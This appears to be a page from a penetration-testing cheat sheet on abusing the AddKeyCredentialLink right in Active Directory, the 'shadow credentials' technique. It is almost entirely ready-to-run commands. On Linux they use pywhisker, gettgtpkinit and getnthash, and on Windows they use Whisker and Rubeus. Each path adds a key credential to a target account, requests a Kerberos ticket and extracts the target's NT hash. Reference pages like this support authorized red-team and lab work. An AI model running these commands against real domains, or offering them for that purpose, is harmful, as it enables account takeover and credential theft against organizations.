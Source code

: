 ```yaml
---
title: "AddKeyCredentialLink"
date: 2024-7-31
tags: ["AddKeyCredentialLink", "active driectory", "ad", "Windows", "shadow credentials", "whisker", "pywhisker"]
---
```


### Privesc #1: Shadow credentials

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 0. Pre-check \[optional\]

```console
python3 pywhisker.py --action list -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --dc-ip <DC> -t '<TARGET_USER>' --use-ldaps
```

#### 1. Add shadow credentials

```console
python3 pywhisker.py --action add -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --dc-ip <DC> -t '<TARGET_USER>' --use-ldaps
```

<br>

```console
# Fix module 'OpenSSL.crypto' has no attribute 'PKCS12Type'
pip3 install -I pyopenssl==24.0.0
```

#### 2. Request TGT using the PFX

```console
sudo ntpdate -s <DC> && python3 gettgtpkinit.py -cert-pfx <PFX_FILE> -pfx-pass '<GENERATED_PASSWORD>' '<DOMAIN>/<TARGET_USER>' <TARGET_USER>.ccache -dc-ip <DC>
```

#### 3. Get NT hash

```console
export KRB5CCNAME=<TARGET_USER>.ccache
```

```console
python3 getnthash.py '<DOMAIN>/<TARGET_USER>' -key <AS_REP_ENC_KEY>
```

<small>*Ref: [pywhisker](https://github.com/ShutdownRepo/pywhisker)*</small>
<br>
<small>*Ref: [PKINITtools](https://github.com/dirkjanm/PKINITtools)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 0. Pre-check \[optional\]

```console
.\whisker.exe list /domain:<DOMAIN> /target:'<TARGET_USER>' /dc:<DC>
```

#### 1. Add shadow credentials

```console
.\whisker.exe add /domain:<DOMAIN> /target:'<TARGET_USER>' /dc:<DC> /password:'<PFX_PASSWORD>'
```

#### 2. Request TGT using PFX file and get NTLM hash

```console
.\rubeus.exe asktgt /user:'<TARGET_USER>' /certificate:<BASE64_PFX> /password:'<PFX_PASSWORD>' /domain:<DOMAIN> /dc:<DC> /getcredentials /show
```

<small>*Ref: [Whisker.exe](https://github.com/eladshamir/Whisker)*</small>

{{< /tabcontent >}}

